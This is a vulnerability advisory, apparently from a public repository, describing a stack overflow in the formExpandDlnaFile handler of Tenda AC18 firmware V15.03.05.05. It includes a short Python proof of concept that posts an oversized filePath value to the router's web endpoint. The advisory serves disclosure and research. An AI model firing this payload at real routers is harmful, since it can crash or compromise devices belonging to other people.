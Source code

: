 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formExpandDlnaFile` function. The `v18` variable receives the `filePath` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `filePath` can trigger this security vulnerability.

![image-20240305164522670](formExpandDlnaFile.assets/image-20240305164522670.png)

![image-20240305162856555](formExpandDlnaFile.assets/image-20240305162856555.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/expandDlnaFile"
payload = b"a"*2000

data = {"filePath": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240305164900093](formExpandDlnaFile.assets/image-20240305164900093.png)
